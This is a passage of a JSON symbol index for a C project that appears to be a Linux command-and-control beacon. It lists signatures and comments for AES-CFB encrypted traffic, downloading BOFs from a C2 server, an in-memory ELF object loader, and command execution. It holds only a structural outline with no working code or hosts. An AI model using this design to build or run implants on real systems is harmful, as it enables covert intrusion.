425, "name": "InvShiftRows", "signature": "static void InvShiftRows(state_t *state)"}, {"doc": "Cipher is the main function that encrypts the PlainText.", "kind": "function", "line": 455, "name": "Cipher", "signature": "static void Cipher(state_t *state, const uint8_t *RoundKey)"}, {"doc": "if (defined(CBC) && CBC == 1) || (defined(ECB) && ECB == 1)", "kind": "function", "line": 482, "name": "InvCipher", "signature": "static void InvCipher(state_t *state, const uint8_t *RoundKey)"}, {"kind": "function", "line": 512, "name": "AES_ECB_encrypt", "signature": "void AES_ECB_encrypt(const struct AES_ctx *ctx, uint8_t *buf)"}, {"kind": "function", "line": 518, "name": "AES_ECB_decrypt", "signature": "void AES_ECB_decrypt(const struct AES_ctx *ctx, uint8_t *buf)"}, {"kind": "function", "line": 528, "name": "XorWithIv", "signature": "static void XorWithIv(uint8_t *buf, const uint8_t *Iv)"}, {"kind": "function", "line": 537, "name": "AES_CBC_encrypt_buffer", "signature": "void AES_CBC_encrypt_buffer(struct AES_ctx *ctx, uint8_t *buf, size_t length)"}, {"kind": "function", "line": 552, "name": "AES_CBC_decrypt_buffer", "signature": "void AES_CBC_decrypt_buffer(struct AES_ctx *ctx, uint8_t *buf, size_t length)"}, {"doc": "Symmetrical operation: same function for encrypting as for decrypting. Note any IV/nonce should * never be reused with the same key", "kind": "function", "line": 572, "name": "AES_CTR_xcrypt_buffer", "signature": "void AES_CTR_xcrypt_buffer(struct AES_ctx *ctx, uint8_t *buf, size_t length)"}, {"kind": "macro", "line": 5, "name": "Nb", "signature": "#define Nb"}, {"kind": "macro", "line": 7, "name": "KEYLEN_256", "signature": "#define KEYLEN_256"}, {"kind": "macro", "line": 8, "name": "RKLENGTH", "signature": "#define RKLENGTH"}, {"kind": "macro", "line": 9, "name": "BLOCKLEN", "signature": "#define BLOCKLEN"}, {"kind": "macro", "line": 84, "name": "Nb", "signature": "#define Nb"}, {"kind": "macro", "line": 87, "name": "Nk", "signature": "#define Nk"}, {"kind": "macro", "line": 88, "name": "Nr", "signature": "#define Nr"}, {"kind": "macro", "line": 90, "name": "Nk", "signature": "#define Nk"}, {"kind": "macro", "line": 91, "name": "Nr", "signature": "#define Nr"}, {"kind": "macro", "line": 93, "name": "Nk", "signature": "#define Nk"}, {"kind": "macro", "line": 94, "name": "Nr", "signature": "#define Nr"}, {"kind": "macro", "line": 101, "name": "MULTIPLY_AS_A_FUNCTION", "signature": "#define MULTIPLY_AS_A_FUNCTION"}, {"kind": "macro", "line": 177, "name": "getSBoxValue", "signature": "#define getSBoxValue(num)"}, {"kind": "macro", "line": 371, "name": "Multiply", "signature": "#define Multiply(x, y)"}, {"kind": "macro", "line": 384, "name": "getSBoxInvert", "signature": "#define getSBoxInvert(num)"}]}, {"doc": "#define the macros below to 1/0 to enable/disable the mode of operation.", "id": "include/aes.h", "kind": "module", "label": "aes.h", "language": "h", "sha256": "a953af3e00267123", "symbol_count": 21, "symbols": [{"kind": "struct", "line": 33, "name": "AES_ctx"}, {"kind": "function", "line": 41, "name": "AES_init_ctx", "signature": "void AES_init_ctx(struct AES_ctx *ctx, const uint8_t *key);"}, {"doc": "if (defined(CBC) && (CBC == 1)) || (defined(CTR) && (CTR == 1))", "kind": "function", "line": 43, "name": "AES_init_ctx_iv", "signature": "void AES_init_ctx_iv(struct AES_ctx *ctx, const uint8_t *key, const uint8_t *iv);"}, {"kind": "function", "line": 44, "name": "AES_ctx_set_iv", "signature": "void AES_ctx_set_iv(struct AES_ctx *ctx, const uint8_t *iv);"}, {"doc": "if defined(ECB) && (ECB == 1)", "kind": "function", "line": 48, "name": "AES_ECB_encrypt", "signature": "void AES_ECB_encrypt(const struct AES_ctx *ctx, uint8_t *buf);"}, {"kind": "function", "line": 49, "name": "AES_ECB_decrypt", "signature": "void AES_ECB_decrypt(const struct AES_ctx *ctx, uint8_t *buf);"}, {"doc": "if defined(CBC) && (CBC == 1)", "kind": "function", "line": 53, "name": "AES_CBC_encrypt_buffer", "signature": "void AES_CBC_encrypt_buffer(struct AES_ctx *ctx, uint8_t *buf, size_t length);"}, {"kind": "function", "line": 54, "name": "AES_CBC_decrypt_buffer", "signature": "void AES_CBC_decrypt_buffer(struct AES_ctx *ctx, uint8_t *buf, size_t length);"}, {"doc": "if defined(CTR) && (CTR == 1)", "kind": "function", "line": 58, "name": "AES_CTR_xcrypt_buffer", "signature": "void AES_CTR_xcrypt_buffer(struct AES_ctx *ctx, uint8_t *buf, size_t length);"}, {"kind": "macro", "line": 2, "name": "_AES_H_", "signature": "#define _AES_H_"}, {"kind": "macro", "line": 9, "name": "CBC", "signature": "#define CBC"}, {"kind": "macro", "line": 12, "name": "ECB", "signature": "#define ECB"}, {"kind": "macro", "line": 15, "name": "CTR", "signature": "#define CTR"}, {"kind": "macro", "line": 18, "name": "AES256", "signature": "#define AES256"}, {"kind": "macro", "line": 20, "name": "AES_BLOCKLEN", "signature": "#define AES_BLOCKLEN"}, {"kind": "macro", "line": 23, "name": "AES_KEYLEN", "signature": "#define AES_KEYLEN"}, {"kind": "macro", "line": 24, "name": "AES_keyExpSize", "signature": "#define AES_keyExpSize"}, {"kind": "macro", "line": 26, "name": "AES_KEYLEN", "signature": "#define AES_KEYLEN"}, {"kind": "macro", "line": 27, "name": "AES_keyExpSize", "signature": "#define AES_keyExpSize"}, {"kind": "macro", "line": 29, "name": "AES_KEYLEN", "signature": "#define AES_KEYLEN"}, {"kind": "macro", "line": 30, "name": "AES_keyExpSize", "signature": "#define AES_keyExpSize"}]}, {"id": "include/aes_cfb.c", "kind": "module", "label": "aes_cfb.c", "language": "c", "sha256": "46dc10420c5276f2", "symbol_count": 4, "symbols": [{"kind": "function", "line": 21, "name": "aes256_cfb_encrypt", "signature": "unsigned char *aes256_cfb_encrypt(const unsigned char *key, const unsigned char *iv,\n            ..."}, {"kind": "function", "line": 55, "name": "aes256_cfb_decrypt", "signature": "unsigned char *aes256_cfb_decrypt(const unsigned char *key, const unsigned char *iv,\n            ..."}, {"doc": "Encrypt with replay protection: prepends counter (8 bytes LE) and timestamp (8 bytes LE) * to plaintext before AES-CFB encryption. Returns malloc'd buffer (caller frees).", "kind": "function", "line": 94, "name": "aes256_cfb_encrypt_replay", "signature": "unsigned char *aes256_cfb_encrypt_replay(const unsigned char *key, const unsigned char *iv,\n     ..."}, {"doc": "Decrypt with replay protection: decrypts ciphertext, extracts counter and timestamp. Returns malloc'd plaintext (without counter/timestamp), sets *out_counter and *out_timestamp. * Returns NULL on decryption failure.", "kind": "function", "line": 126, "name": "aes256_cfb_decrypt_replay", "signature": "unsigned char *aes256_cfb_decrypt_replay(const unsigned char *key, const unsigned char *iv,\n     ..."}]}, {"id": "include/aes_cfb.h", "kind": "module", "label": "aes_cfb.h", "language": "h", "sha256": "758ff2424d32c9ad", "symbol_count": 3, "symbols": [{"kind": "function", "line": 9, "name": "aes256_cfb_encrypt", "signature": "unsigned char *aes256_cfb_encrypt(const unsigned char *key, const unsigned char *iv, const unsigned char *plaintext, size_t len, int *out_len);"}, {"kind": "function", "line": 11, "name": "aes256_cfb_decrypt", "signature": "unsigned char *aes256_cfb_decrypt(const unsigned char *key, const unsigned char *iv, const unsigned char *ciphertext, size_t len, int *out_len);"}, {"kind": "macro", "line": 5, "name": "BSB_AES_CFB_H", "signature": "#define BSB_AES_CFB_H"}]}, {"id": "include/async_i_o_for_beacon.h", "kind": "module", "label": "async_i_o_for_beacon.h", "language": "h", "sha256": "f5f35b808f2b5a74", "symbol_count": 2, "symbols": [{"kind": "function", "line": 4, "name": "async_i_o_for_beacon_process", "signature": "bool async_i_o_for_beacon_process(void);"}, {"kind": "macro", "line": 2, "name": "ASYNC_I_O_FOR_BEACON_H", "signature": "#define ASYNC_I_O_FOR_BEACON_H"}]}, {"doc": "beacon_api.h   Tipos de callback  Estructura para parsing de datos (opcional, para comandos complejos)", "id": "include/beacon.h", "kind": "module", "label": "beacon.h", "language": "h", "sha256": "361fff9bedf6048a", "symbol_count": 13, "symbols": [{"doc": "Estructura para parsing de datos (opcional, para comandos complejos)", "kind": "struct", "line": 14, "name": "datap"}, {"doc": "=== API para BOFs ===", "kind": "function", "line": 22, "name": "BeaconDataParse", "signature": "void BeaconDataParse(datap *parser, char *buffer, int size);"}, {"kind": "function", "line": 23, "name": "BeaconDataPtr", "signature": "char *BeaconDataPtr(datap *parser, int size);"}, {"kind": "function", "line": 24, "name": "BeaconDataInt", "signature": "int BeaconDataInt(datap *parser);"}, {"kind": "function", "line": 25, "name": "BeaconDataShort", "signature": "short BeaconDataShort(datap *parser);"}, {"kind": "function", "line": 26, "name": "BeaconDataLength", "signature": "int BeaconDataLength(datap *parser);"}, {"kind": "function", "line": 27, "name": "BeaconDataExtract", "signature": "char *BeaconDataExtract(datap *parser, int *size);"}, {"kind": "function", "line": 28, "name": "BeaconPrintf", "signature": "void BeaconPrintf(int type, const char *fmt, ...);"}, {"kind": "function", "line": 29, "name": "BeaconOutput", "signature": "void BeaconOutput(int type, const char *data, int len);"}, {"kind": "macro", "line": 3, "name": "BEACON_API_H", "signature": "#define BEACON_API_H"}, {"kind": "macro", "line": 9, "name": "CALLBACK_OUTPUT", "signature": "#define CALLBACK_OUTPUT"}, {"kind": "macro", "line": 10, "name": "CALLBACK_ERROR", "signature": "#define CALLBACK_ERROR"}, {"kind": "macro", "line": 11, "name": "CALLBACK_OUTPUT_OEM", "signature": "#define CALLBACK_OUTPUT_OEM"}]}, {"id": "include/beacon_common.c", "kind": "module", "label": "beacon_common.c", "language": "c", "sha256": "d5f7bd8ba22e9775", "symbol_count": 36, "symbols": [{"doc": "size_t new_cap = g_cache_capacity ? g_cache_capacity * 2 : 8; TrampolineCache *tmp = realloc(g_trampoline_cache, new_cap * sizeof(TrampolineCache)); if (!tmp) return tramp; g_trampoline_cache = tmp; g_cache_capacity = new_cap; } g_trampoline_cache[g_cache_count].original = target; g_trampoline_cache[g_cache_count].trampoline = tramp; g_cache_count++; return tramp; } /* --- HTTP client ---", "kind": "struct", "line": 297, "name": "MemoryStruct"}, {"doc": "BOFs run forked: buffer and length live in MAP_SHARED memory so the * parent can read whatever the child's BeaconOutput calls produced.", "kind": "struct", "line": 43, "name": "bsb_output_meta_t"}, {"doc": "{\"BeaconPrintf\", &g_BeaconPrintf_ptr}, {\"BeaconOutput\", &g_BeaconOutput_ptr}, {\"socket\", &g_socket_ptr}, {\"connect\", &g_connect_ptr}, {\"inet_addr\", &g_inet_addr_ptr}, {\"htons\", &g_htons_ptr}, {\"send\", &g_send_ptr}, {\"recv\", &g_recv_ptr}, {\"close\", &g_close_ptr}, {\"getaddrinfo\", &g_getaddrinfo_ptr}, {\"freeaddrinfo\", &g_freeaddrinfo_ptr}, {NULL, NULL}}; /* --- Output buffer management ---", "kind": "function", "line": 109, "name": "bsb_output_init", "signature": "int bsb_output_init(size_t capacity)"}, {"kind": "function", "line": 135, "name": "bsb_output_cleanup", "signature": "void bsb_output_cleanup(void)"}, {"kind": "function", "line": 149, "name": "bsb_output_reset", "signature": "void bsb_output_reset(void)"}, {"doc": "g_beacon_output = NULL; g_out_meta = NULL; } void bsb_output_reset(void) { if (g_beacon_output && g_out_meta) { g_out_meta->len = 0; g_beacon_output[0] = '\\0'; } } /* --- Beacon API (called by BOFs) ---", "kind": "function", "line": 159, "name": "BeaconPrintf", "signature": "void BeaconPrintf(int type, const char *fmt, ...)"}, {"kind": "function", "line": 175, "name": "BeaconOutput", "signature": "void BeaconOutput(int type, const char *data, int len)"}, {"doc": "mmap a code page near `near_hint` so PC32 relocations stay within the * +-2GB displacement range; falls back to an arbitrary placement.", "kind": "function", "line": 193, "name": "mmap_near", "signature": "static void *mmap_near(void *near_hint, size_t len, int prot)"}, {"kind": "function", "line": 211, "name": "create_trampoline", "signature": "void *create_trampoline(void *target, void *near_hint)"}, {"kind": "function", "line": 249, "name": "cleanup_trampolines", "signature": "void cleanup_trampolines(void)"}, {"kind": "function", "line": 266, "name": "get_or_create_trampoline", "signature": "void *get_or_create_trampoline(void *target, void *near_hint)"}, {"kind": "function", "line": 303, "name": "WriteMemoryCallback", "signature": "static size_t WriteMemoryCallback(void *contents, size_t size, size_t nmemb, void *userp)"}, {"kind": "function", "line": 330, "name": "bsb_curl_pin_format", "signature": "static void bsb_curl_pin_format(const char *in, char *out, size_t outsz)"}, {"kind": "function", "line": 367, "name": "https_request", "signature": "http_response_t https_request(const bsb_config_t *cfg, const char *url, const char *method,\n     ..."}, {"doc": "curl_easy_cleanup(curl); return resp; } long http_code = 0; curl_easy_getinfo(curl, CURLINFO_RESPONSE_CODE, &http_code); resp.status = (int)http_code; resp.data = chunk.memory; resp.len = chunk.size; curl_easy_cleanup(curl); return resp; } /* --- Base64 ---", "kind": "function", "line": 451, "name": "base64_encode", "signature": "char *base64_encode(const unsigned char *input, int len)"}, {"kind": "function", "line": 468, "name": "base64_decode", "signature": "unsigned char *base64_decode(const char *input, int *len)"}, {"doc": "Generates a cryptographically secure 16-byte IV. Tries OpenSSL RAND_bytes first, falls back to getrandom(2). Returns 1 on success, 0 on failure (fail-closed).", "kind": "function", "line": 498, "name": "bsb_generate_secure_iv", "signature": "int bsb_generate_secure_iv(unsigned char *iv_out)"}, {"doc": "/* Fallback to getrandom(2) with GRND_NONBLOCK #if defined(__linux__) && defined(SYS_getrandom) long ret = syscall(SYS_getrandom, iv_out, 16, GRND_NONBLOCK); if (ret == 16) { return 1; /* Success } #endif /* Both sources failed - fail closed return 0; } /* --- URL encoding ---", "kind": "function", "line": 523, "name": "_is_unreserved", "signature": "static int _is_unreserved(unsigned char c)"}, {"kind": "function", "line": 529, "name": "url_encode", "signature": "char *url_encode(const char *in, size_t in_len, size_t *out_len)"}, {"doc": "Parse command string into argv array. Returns malloc'd argv array (NULL-terminated), caller must free each string and the array. Returns NULL on parse error.", "kind": "function", "line": 561, "name": "parse_cmd_to_argv", "signature": "static char **parse_cmd_to_argv(const char *cmd, int *out_argc)"}, {"kind": "function", "line": 637, "name": "free_argv", "signature": "static void free_argv(char **argv)"}, {"doc": "Execute command via execve (no shell) and capture stdout+stderr. Returns malloc'd buffer with combined output (caller frees). On error, returns NULL.", "kind": "function", "line": 648, "name": "exec_cmd", "signature": "char *exec_cmd(const char *cmd, int *out_len)"}, {"doc": "if (total == 0) { free(buffer); out_len = 0; return strdup(\"\"); } buffer[total] = '\\0'; out_len = (int)total; return buffer; } /* --- Backoff state ---", "kind": "function", "line": 789, "name": "bsb_backoff_init", "signature": "void bsb_backoff_init(bsb_backoff_t *bo, int base, int max)"}, {"kind": "function", "line": 796, "name": "bsb_backoff_next", "signature": "int bsb_backoff_next(bsb_backoff_t *bo)"}, {"kind": "function", "line": 807, "name": "bsb_backoff_reset", "signature": "void bsb_backoff_reset(bsb_backoff_t *bo)"}, {"doc": "bo->current_seconds *= 2; if (bo->current_seconds > bo->max_seconds) { bo->current_seconds = bo->max_seconds; } return val; } void bsb_backoff_reset(bsb_backoff_t *bo) { bo->current_seconds = bo->base_seconds; } /* --- IP discovery ---", "kind": "function", "line": 813, "name": "get_local_ips", "signature": "char *get_local_ips(void)"}, {"doc": "if (addr->sin_family == AF_INET && strcmp(ifr[i].ifr_name, \"lo\") != 0) { char ip[INET_ADDRSTRLEN]; inet_ntop(AF_INET, &addr->sin_addr, ip, INET_ADDRSTRLEN); if (strlen(result) > 0) strcat(result, \", \"); strcat(result, ip); } } close(sockfd); return strlen(result) > 0 ? result : strdup(\"127.0.0.1\"); } /* --- BOF download ---", "kind": "function", "line": 848, "name": "download_bof", "signature": "unsigned char *download_bof(const bsb_config_t *cfg, const char *url, size_t *out_size)"}, {"doc": "int decoded_len = 0; unsigned char *decoded = base64_decode(resp.data, &decoded_len); free(resp.data); if (!decoded || decoded_len <= 0) { free(decoded); return NULL; } out_size = (size_t)decoded_len; return decoded; } /* --- BOF execution with fork isolation ---", "kind": "function", "line": 880, "name": "init_function_pointers", "signature": "static void init_function_pointers(void)"}, {"kind": "function", "line": 930, "name": "page_align", "signature": "static size_t page_align(size_t size)"}, {"kind": "function", "line": 938, "name": "bof_crash_exit", "signature": "static void bof_crash_exit(int sig)"}, {"kind": "function", "line": 943, "name": "__attribute__", "signature": "static void __attribute__((noinline)) call_bof_isolated(bof_func_t func, char *args,\n            ..."}, {"kind": "function", "line": 969, "name": "RunELF", "signature": "int RunELF(const char *functionname, unsigned char *elf_data, uint32_t filesize,\n           unsig..."}, {"kind": "function", "line": 1271, "name": "run_bof_and_capture", "signature": "char *run_bof_and_capture(unsigned char *elf_data, uint32_t filesize, char *args, int arglen,\n   ..."}, {"kind": "function", "line": 378, "name": "rand", "signature": "* rand() % 0 raise SIGFPE and kill the beacon. Fall back to a * neutral default instead. */ if (cfg->network.count > 0 && cfg->network.user_agents[0][0] != '\\0') curl_easy_setopt(curl, CURLOPT_USERAGE"}, {"kind": "function", "line": 949, "name": "fault", "signature": "* fault (SIGSEGV inside BeaconPrintf). We save the original %rsp in * a scratch slot we own below the current stack pointer, align, call, * then restore. Callee-saved registers are restored by the BOF"}, {"kind": "macro", "line": 9, "name": "_GNU_SOURCE", "signature": "#define _GNU_SOURCE"}]}, {"id": "include/beacon_common.c_extraction.h", "kind": "module", "label": "beacon_common.c_extraction.h", "language": "h", "sha256": "c2b272500a2c0a7b", "symbol_count": 1, "symbols": [{"kind": "macro", "line": 2, "name": "BEACON_COMMON", "signature": "#define BEACON_COMMON"}]}, {"id": "include/beacon_common.h", "kind": "module", "label": "beacon_common.h", "language": "h", "sha256": "47c397f132002ce0", "symbol_count": 58, "symbols": [{"doc": "-- HTTP response wrapper --- https_request now returns a proper struct instead of the * broken full+8 pointer trick that leaked memory.", "kind": "struct", "line": 33, "name": "http_response_t"}, {"doc": "-- HTTP response wrapper --- https_request now returns a proper struct instead of the * broken full+8 pointer trick that leaked memory. typedef struct { char *data; /* response body (malloc'd, caller frees) size_t len; /* body length in bytes int status; /* HTTP status code (0 on error) } http_response_t; /* --- Trampoline (for position-independent BOF relocations) ---", "kind": "struct", "line": 41, "name": "Trampoline"}, {"doc": "int status; /* HTTP status code (0 on error) } http_response_t; /* --- Trampoline (for position-independent BOF relocations) --- typedef struct { void *addr; size_t size; } Trampoline; /* --- BOF function signature --- typedef void (*bof_func_t)(char *, int); /* --- Symbol resolver table entry ---", "kind": "struct", "line": 51, "name": "SymbolResolver"}, {"doc": "size_t size; } Trampoline; /* --- BOF function signature --- typedef void (*bof_func_t)(char *, int); /* --- Symbol resolver table entry --- typedef struct { const char *name; void **ptr; } SymbolResolver; /* --- Trampoline cache entry ---", "kind": "struct", "line": 58, "name": "TrampolineCache"}, {"doc": "Exponential backoff state. Initialize once, call bsb_backoff_next() * to get the next sleep duration. Automatically resets on success.", "kind": "struct", "line": 182, "name": "bsb_backoff_t"}, {"doc": "Initialize the output buffer. Call once at beacon startup. * Returns 0 on success, -1 on allocation failure.", "kind": "function", "line": 96, "name": "bsb_output_init", "signature": "int bsb_output_init(size_t capacity);"}, {"doc": "Initialize the output buffer. Call once at beacon startup. * Returns 0 on success, -1 on allocation failure. int bsb_output_init(size_t capacity); /* Free the output buffer. Call at beacon shutdown.", "kind": "function", "line": 99, "name": "bsb_output_cleanup", "signature": "void bsb_output_cleanup(void);"}, {"doc": "Initialize the output buffer. Call once at beacon startup. * Returns 0 on success, -1 on allocation failure. int bsb_output_init(size_t capacity); /* Free the output buffer. Call at beacon shutdown. void bsb_output_cleanup(void); /* Reset the output buffer for a new BOF execution.", "kind": "function", "line": 102, "name": "bsb_output_reset", "signature": "void bsb_output_reset(void);"}, {"doc": "Initialize the output buffer. Call once at beacon startup. * Returns 0 on success, -1 on allocation failure. int bsb_output_init(size_t capacity); /* Free the output buffer. Call at beacon shutdown. void bsb_output_cleanup(void); /* Reset the output buffer for a new BOF execution. void bsb_output_reset(void); /* Beacon API: printf-style output capture (called by BOFs).", "kind": "function", "line": 105, "name": "BeaconPrintf", "signature": "void BeaconPrintf(int type, const char *fmt, ...);"}, {"doc": "Initialize the output buffer. Call once at beacon startup. * Returns 0 on success, -1 on allocation failure. int bsb_output_init(size_t capacity); /* Free the output buffer. Call at beacon shutdown. void bsb_output_cleanup(void); /* Reset the output buffer for a new BOF execution. void bsb_output_reset(void); /* Beacon API: printf-style output capture (called by BOFs). void BeaconPrintf(int type, const char *fmt, ...); /* Beacon API: raw output capture (called by BOFs).", "kind": "function", "line": 108, "name": "BeaconOutput", "signature": "void BeaconOutput(int type, const char *data, int len);"}, {"doc": "/* Free the output buffer. Call at beacon shutdown. void bsb_output_cleanup(void); /* Reset the output buffer for a new BOF execution. void bsb_output_reset(void); /* Beacon API: printf-style output capture (called by BOFs). void BeaconPrintf(int type, const char *fmt, ...); /* Beacon API: raw output capture (called by BOFs). void BeaconOutput(int type, const char *data, int len); /* Trampoline management", "kind": "function", "line": 111, "name": "create_trampoline", "signature": "void *create_trampoline(void *target, void *near_hint);"}, {"kind": "function", "line": 112, "name": "cleanup_trampolines", "signature": "void cleanup_trampolines(void);"}, {"kind": "function", "line": 113, "name": "get_or_create_trampoline", "signature": "void *get_or_create_trampoline(void *target, void *near_hint);"}, {"doc": "HTTP client: performs GET or POST request. Returns a struct with the response body, length, and status code. On error, data is NULL and len is 0. The caller must free(data). * Uses config for timeouts, TLS verification, and user-agent.", "kind": "function", "line": 119, "name": "https_request", "signature": "http_response_t https_request(const bsb_config_t *cfg, const char *url, const char *method, const char *post_data);"}, {"doc": "HTTP client: performs GET or POST request. Returns a struct with the response body, length, and status code. On error, data is NULL and len is 0. The caller must free(data). * Uses config for timeouts, TLS verification, and user-agent. http_response_t https_request(const bsb_config_t *cfg, const char *url, const char *method, const char *post_data); /* Base64 encode/decode (OpenSSL BIO-based)", "kind": "function", "line": 123, "name": "base64_encode", "signature": "char *base64_encode(const unsigned char *input, int len);"}, {"kind": "function", "line": 124, "name": "base64_decode", "signature": "unsigned char *base64_decode(const char *input, int *len);"}, {"doc": "HTTP client: performs GET or POST request. Returns a struct with the response body, length, and status code. On error, data is NULL and len is 0. The caller must free(data). * Uses config for timeouts, TLS verification, and user-agent. http_response_t https_request(const bsb_config_t *cfg, const char *url, const char *method, const char *post_data); /* Base64 encode/decode (OpenSSL BIO-based) char *base64_encode(const unsigned char *input, int len); unsigned char *base64_decode(const char *input, int *len); /* URL percent-encoding (RFC 3986 unreserved set)", "kind": "function", "line": 127, "name": "url_encode", "signature": "char *url_encode(const char *in, size_t in_len, size_t *out_len);"}, {"doc": "Secure IV generation: tries RAND_bytes, falls back to getrandom(2). * Returns 1 on success, 0 on failure (fail-closed).", "kind": "function", "line": 131, "name": "bsb_generate_secure_iv", "signature": "int bsb_generate_secure_iv(unsigned char *iv_out);"}, {"doc": "Secure IV generation: tries RAND_bytes, falls back to getrandom(2). * Returns 1 on success, 0 on failure (fail-closed). int bsb_generate_secure_iv(unsigned char *iv_out); /* AES-256-CFB encrypt/decrypt (standalone, no OpenSSL dependency)", "kind": "function", "line": 134, "name": "aes256_cfb_encrypt", "signature": "unsigned char *aes256_cfb_encrypt(const unsigned char *key, const unsigned char *iv, const unsigned char *plaintext, size_t len, int *out_len);"}, {"kind": "function", "line": 136, "name": "aes256_cfb_decrypt", "signature": "unsigned char *aes256_cfb_decrypt(const unsigned char *key, const unsigned char *iv, const unsigned char *ciphertext, size_t len, int *out_len);"}, {"doc": "Replay-protected encryption: prepends counter (8 bytes LE) and timestamp (8 bytes LE) to plaintext before AES-CFB encryption. Returns malloc'd buffer with IV + ciphertext. * Caller must free the returned buffer.", "kind": "function", "line": 142, "name": "aes256_cfb_encrypt_replay", "signature": "unsigned char *aes256_cfb_encrypt_replay(const unsigned char *key, const unsigned char *iv, const unsigned char *plaintext, size_t len, uint64_t counter, uint64_t timestamp, int *out_len);"}, {"doc": "Replay-protected decryption: decrypts ciphertext, extracts counter and timestamp. Returns malloc'd plaintext (without counter/timestamp), sets *out_counter and *out_timestamp. * Returns NULL on decryption failure.", "kind": "function", "line": 150, "name": "aes256_cfb_decrypt_replay", "signature": "unsigned char *aes256_cfb_decrypt_replay(const unsigned char *key, const unsigned char *iv, const unsigned char *ciphertext, size_t len, uint64_t *out_counter, uint64_t *out_timestamp, int *out_len);"}, {"kind": "function", "line": 156, "name": "buffer", "signature": "* buffer (caller frees). On error, returns NULL. */ char *exec_cmd(const char *cmd, int *out_len);"}, {"doc": "ELF BOF loader. Loads a position-independent ELF object into memory, resolves symbols, applies relocations, and calls the entry function in a forked child process for crash isolation. Returns 0 on success, -1 on error. BOF output is captured * into g_beacon_output.", "kind": "function", "line": 164, "name": "RunELF", "signature": "int RunELF(const char *functionname, unsigned char *elf_data, uint32_t filesize, unsigned char *argumentdata, int argumentSize);"}, {"doc": "Download a BOF from the C2 server. Returns malloc'd buffer * (caller frees). On error, sets *out_size to 0 and returns NULL.", "kind": "function", "line": 169, "name": "download_bof", "signature": "unsigned char *download_bof(const bsb_config_t *cfg, const char *url, size_t *out_size);"}, {"doc": "Execute a BOF and capture its output. Returns malloc'd string * (caller frees). On error or empty output, returns strdup(\"\").", "kind": "function", "line": 173, "name": "run_bof_and_capture", "signature": "char *run_bof_and_capture(unsigned char *elf_data, uint32_t filesize, char *args, int arglen, int *out_len);"}, {"doc": "Get local IP addresses as a comma-separated string. Returns * malloc'd buffer (caller frees). Falls back to \"127.0.0.1\".", "kind": "function", "line": 178, "name": "get_local_ips", "signature": "char *get_local_ips(void);"}, {"kind": "function", "line": 189, "name": "bsb_backoff_init", "signature": "void bsb_backoff_init(bsb_backoff_t *bo, int base, int max);"}, {"kind": "function", "line": 190, "name": "bsb_backoff_next", "signature": "int bsb_backoff_next(bsb_backoff_t *bo);"}, {"kind": "function", "line": 191, "name": "bsb_backoff_reset", "signature": "void bsb_backoff_reset(bsb_backoff_t *bo);"}, {"doc": "typedef struct { const char *name; void **ptr; } SymbolResolver; /* --- Trampoline cache entry --- typedef struct { void *original; void *trampoline; } TrampolineCache; /* --- Global state (defined in beacon_common.c) ---", "kind": "variable", "line": 65, "name": "g_beacon_output", "signature": "extern char *g_beacon_output;"}, {"doc": "void **ptr; } SymbolResolver; /* --- Trampoline cache entry --- typedef struct { void *original; void *trampoline; } TrampolineCache; /* --- Global state (defined in beacon_common.c) --- extern char *g_beacon_output; /* Function pointers exposed to BOFs", "kind": "variable", "line": 68, "name": "g_printf_ptr", "signature": "extern void *g_printf_ptr;"}, {"kind": "variable", "line": 69, "name": "g_strlen_ptr", "signature": "extern void *g_strlen_ptr;"}, {"kind": "variable", "line": 70, "name": "g_memcpy_ptr", "signature": "extern void *g_memcpy_ptr;"}, {"kind": "variable", "line": 71, "name": "g_memset_ptr", "signature": "extern void *g_memset_ptr;"}, {"kind": "variable", "line": 72, "name": "g_exit_ptr", "signature": "extern void *g_exit_ptr;"}, {"kind": "variable", "line": 73, "name": "g_dlsym_ptr", "signature": "extern void *g_dlsym_ptr;"}, {"kind": "variable", "line": 74, "name": "g_dlerror_ptr", "signature": "extern void *g_dlerror_ptr;"}, {"kind": "variable", "line": 75, "name": "g_dlopen_ptr", "signature": "extern void *g_dlopen_ptr;"}, {"kind": "variable", "line": 76, "name": "g_dlclose_ptr", "signature": "extern void *g_dlclose_ptr;"}, {"kind": "variable", "line": 77, "name": "g_write_ptr", "signature": "extern void *g_write_ptr;"}, {"kind": "variable", "line": 78, "name": "g_mmap_ptr", "signature": "extern void *g_mmap_ptr;"}, {"kind": "variable", "line": 79, "name": "g_munmap_ptr", "signature": "extern void *g_munmap_ptr;"}, {"kind": "variable", "line": 80, "name": "g_BeaconPrintf_ptr", "signature": "extern void *g_BeaconPrintf_ptr;"}, {"kind": "variable", "line": 81, "name": "g_BeaconOutput_ptr", "signature": "extern void *g_BeaconOutput_ptr;"}, {"kind": "variable", "line": 82, "name": "g_socket_ptr", "signature": "extern void *g_socket_ptr;"}, {"kind": "variable", "line": 83, "name": "g_connect_ptr", "signature": "extern void *g_connect_ptr;"}, {"kind": "variable", "line": 84, "name": "g_inet_addr_ptr", "signature": "extern void *g_inet_addr_ptr;"}, {"kind": "variable", "line": 85, "name": "g_htons_ptr", "signature": "extern void *g_htons_ptr;"}, {"kind": "variable", "line": 86, "name": "g_send_ptr", "signature": "extern void *g_send_ptr;"}, {"kind": "variable", "line": 87, "name": "g_recv_ptr", "signature": "extern void *g_recv_ptr;"}, {"kind": "variable", "line": 88, "name": "g_close_ptr", "signature": "extern void *g_close_ptr;"}, {"kind": "variable", "line": 89, "name": "g_getaddrinfo_ptr", "signature": "extern void *g_getaddrinfo_ptr;"}, {"kind": "variable", "line": 90, "name": "g_freeaddrinfo_ptr", "signature": "extern void *g_freeaddrinfo_ptr;"}, {"kind": "macro", "line": 13, "name": "BEACON_COMMON_H", "signature": "#define BEACON_COMMON_H"}, {"kind": "macro", "line": 15, "name": "_GNU_SOURCE", "signature": "#define _GNU_SOURCE"}, {"kind": "macro", "line": 26, "name": "BSB_OUTPUT_BUFFER_DEFAULT", "signature": "#define BSB_OUTPUT_BUFFER_DEFAULT"}, {"kind": "macro", "line": 27, "name": "BSB_OUTPUT_TRUNCATION_MARKER", "signature": "#define BSB_OUTPUT_TRUNCATION_MARKER"}]}, {"id": "include/beacon_heartbeat___health_endpoint.h", "kind": "module", "label": "beacon_heartbeat___health_endpoint.h", "language": "h", "sha256": "ec45ec2c68fe222c", "symbol_count": 2, "symbols": [{"kind": "function", "line": 4, "name": "beacon_heartbeat___health_endpoint_process", "signature": "bool beacon_heartbeat___health_endpoint_process(void);"}, {"kind": "macro", "line": 2, "name": "BEACON_HEARTBEAT___HEALTH_ENDPOINT_H", "signature": "#define BEACON_HEARTBEAT___HEALTH_ENDPOINT_H"}]}, {"id": "include/bof_api_versioning.h", "kind": "module", "label": "bof_api_versioning.h", "language": "h", 